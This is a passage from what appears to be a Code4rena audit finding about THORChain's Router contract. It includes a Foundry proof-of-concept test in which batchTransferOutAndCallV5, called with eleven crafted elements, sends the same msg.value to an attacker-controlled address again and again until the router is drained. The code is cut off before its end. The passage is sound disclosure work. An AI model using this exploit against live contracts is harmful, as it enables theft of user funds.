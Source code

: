 ### Proof of Concept

Consider a scenario where the Router's balance is 100e18 ethers. Suppose the [`batchTransferOutAndCallV5()`](https://github.com/code-423n4/2024-06-thorchain/blob/e3fd3c75ff994dce50d6eb66eb290d467bd494f5/chain/ethereum/contracts/THORChain_Router.sol#L397-L403) function is called with an array of 11 struct elements, each with the following parameters:

- `aggregationPayload.fromAsset = address(0)`.
- The `aggregationPayload.target` address is EOA controlled by the attacker.

The [call](https://github.com/code-423n4/2024-06-thorchain/blob/e3fd3c75ff994dce50d6eb66eb290d467bd494f5/chain/ethereum/contracts/THORChain_Router.sol#L309) will return false and then enter the fallback logic in the if statement. This action sends the `msg.value` to the `aggregationPayload.target`. This process is repeated for each element in the calldata array, resulting in the router being completely drained. The scenario is demonstrated in the coded proof of concept below.

**Coded POC:**

To run the test, you first need to initialize the Foundry project in the repo using `forge init --force`. Then, place the following test in the test folder and run it with `forge test -vvv`.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import {THORChain_Router} from "../contracts/THORChain_Router.sol";

contract RouterTest is Test {
    THORChain_Router public router;
    address alice = makeAddr("alice");

    function setUp() public {
        router = new THORChain_Router();
    }

    function testRouterDrain() public {
        deal(address(router), 100e18);
        deal(alice, 10e18);

        console.log("alice's balance before: ", alice.balance);
        console.log("router's balance before:", address(router).balance);

        THORChain_Router.TransferOutAndCallData[] memory cdArray = new THORChain_Router.TransferOutAndCallData[](11);

        for(uint i; i < 11; i++) {
            cdArray[i] = THORChain_Router.TransferOutAndCallData(
                payable(alice),
                address(0),
                10e18,
                address(0),
                alice,
                0,
                "",
                "",
                ""
            );
        }

        vm.prank(alice);
        router.batchTransferOutAndCallV5{value: 10e18}(cdArray);

        console.log("alice's balance after:  ", alice.balance);
        console.log("router's balance after: ", address(router).balance);
    }
```
